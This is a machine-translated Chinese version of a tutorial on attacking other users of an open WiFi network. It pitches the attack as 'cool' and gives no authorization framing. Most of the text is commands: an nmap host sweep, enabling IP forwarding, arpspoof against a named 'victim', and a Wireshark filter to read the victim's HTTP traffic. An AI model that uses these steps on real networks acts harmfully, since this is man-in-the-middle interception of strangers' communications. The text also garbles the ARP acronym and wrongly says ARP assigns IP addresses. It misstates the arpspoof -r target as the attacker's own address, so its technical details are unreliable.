


# 如何黑开 WiFi？

> 原文:[https://www.geeksforgeeks.org/how-to-hack-a-open-wifi/](https://www.geeksforgeeks.org/how-to-hack-a-open-wifi/)

我们知道，如今如果我们中的任何人发现免费开放的 WiFi，我们的幸福就更上一层楼了。黑一个使用和我们一样的开放式 WiFi 的人听起来不是很酷吗？如果答案是肯定的，那么让我们来看看如何实现这一目标。

我们将需要以下工具:

1.  **Kali Linux 或其他安装了所需工具的 Linux:**Kali Linux 是一个高级渗透测试 Linux 发行版，用于渗透测试、道德黑客和网络安全评估。
2.  **Nmap:** Nmap 是一款免费开源的网络扫描仪。它用于通过发送数据包和分析响应来发现网络上的主机和服务。
3.  **ARP 欺骗:** ARP 代表 **A** 地址 **R** 解决方案 **P** 协议。每当我们将设备连接到 WiFi 网络时，ARP 就会为我们分配一个唯一的 IP 地址，并将我们的设备 MAC 地址存储在 ARP 表中，ARP 欺骗只是欺骗这些请求。
4.  **Wireshark:** 是一款开源的数据包分析器，用于网络分析和故障排除。

### 破解开放式无线网络的步骤

**第一步:**连接目标网络，在终端运行以下命令:

```
ip route
```



上面的命令用于查找我们的流量流动的网关地址。

**步骤 2:** 下一步是通过执行以下命令，使用 nmap 查找连接到网络的不同主机:

```
nmap -sP -n "gateway address/ip range"
```



使用此命令，我们将找到所有连接到我们目标网络的主机及其 IP 地址和 MAC 地址。

**步骤 3:** 使用以下命令启用 IP 转发:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**步骤 4:** 为了在我们的设备上获取受害者流量，我们将使用 ARP 欺骗命令。对于 ARP 欺骗命令，我们需要知道执行攻击的接口，为此，请运行以下命令:

```
ifconfig
```


现在运行以下命令:

```
arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"
```

我们已经欺骗了受害者的设备，他的路由器地址已经被更改为我们的 IP 地址，现在我们可以拦截所有的流量。

**第五步:**最后为了拦截受害者的流量，我们要使用 Wireshark，我们要做的就是使用受害者的 IP 地址。假设我们只希望有 HTTP 流量，我们可以使用以下查询:

```
http && ip.addr == "victim's ip address"
```

